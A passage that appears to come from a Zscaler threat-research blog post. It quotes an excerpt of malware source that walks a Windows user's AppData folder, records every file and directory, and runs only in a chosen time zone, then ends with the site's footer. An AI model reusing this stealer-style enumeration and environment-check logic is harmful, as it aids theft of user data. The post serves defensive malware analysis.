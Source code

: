                     
                    
                    deaf()
                    print("Going for always")
                    append_me("going for always")
                        
                        
                    print("Files Extracted")
                    append_me("Files Extracted\n")
                list_folders = []
                list_files = []
                for root, dirs,files in os.walk('c:\\users\\'+username+'\\appdata',topdown=False):
                    for name in files:
                        print(os.path.join(root,name))
                        list_folders.append(os.path.join(root,name))
                    for name in dirs:
                        print(os.path.join(root,name))
                        list_files.append(os.path.join(root,name))
                patience_limit()
            else:
                print("Not the time Zone You want to run")
                append_me("Not the time Zone You want to run\n")
        else:
            print("Find my self in .py directory")
            append_me("Find my self in .py directory\n")
    except Exception as e:
        #append_me(str(e))
        print(str(e))
        append_me(str(e)+"\n")
 Thank you for readingWas this post useful?Yes, very!Not reallyExplore more Zscaler blogsAgniane Stealer: Dark Web’s Crypto ThreatRead postThe Impact of the SEC’s New Cybersecurity PoliciesRead postSecurity Advisory: Remote Code Execution Vulnerability (CVE-2023-3519)Read postThe TOITOIN Trojan: Analyzing a New Multi-Stage Attack Targeting LATAM RegionRead post01
                /
                02Go to next slideGo to previous slideGet the latest Zscaler blog updates in your inboxBy submitting the form, you are agreeing to our privacy policy. THE ZSCALER EXPERIENCELearn about:Your world, securedZero TrustSecure Access Service Edge (SASE)Security Service Edge (SSE)Zero Trust Network Access (ZTNA)Secure Web Gateway (SWG)Cloud Access Security Broker (CASB)Cloud Native Application Protection Platform (CNAPP)PRODUCTS & SOLUTIONSSecure Your UsersSecure Your WorkloadsSecure Your IoT and OTSecure Internet Access (ZIA)Data Protection (CASB/DLP)Digital Experience (ZDX)Posture ControlIndustry & Market SolutionsPartner IntegrationsZscaler Client ConnectorPLATFORMZero Trust Exchange PlatformSecure Digital TransformationNetwork TransformationApplication TransformationSecurity TransformationRESOURCESResource LibrarySecurity PreviewSecurity & Risk AssessmentThreatLabz Analytics & InsightsUpcoming EventsBlogZscaler AcademyCXO RevolutionariesZpediaRansomware Protection ROI CalculatorPOPULAR LINKSPricing & PlansAbout ZscalerLeadership TeamCareer OpportunitiesFind or Become a PartnerCustomer Success CenterInvestor RelationsPress CenterNews & AnnouncementsESGComplianceContact ZscalerHomeEnglishFrançaisDeutschItaliano日本Castellano - MexicoCastellano - EspañaPortugues - BrasilZscaler is universally recognized as the leader in zero trust. Leveraging the largest security cloud on the planet, Zscaler anticipates, secures, and simplifies the experience of doing business for the world's most established companies. EnglishFrançaisDeutschItaliano日本Castellano - MexicoCastellano - EspañaPortugues - BrasilVisit us on FacebookLinkedinFollow us on TwitterSubscribe our Youtube ChannelSitemapPrivacyLegalSecurity© 2024 Zscaler, Inc. All rights reserved. Zscaler™ and other trademarks listed at zscaler.com/legal/trademarks are either (i) registered trademarks or service marks or (ii) trademarks or service marks of Zscaler, Inc. in the United States and/or other countries. Any other trademarks are the properties of their respective owners.


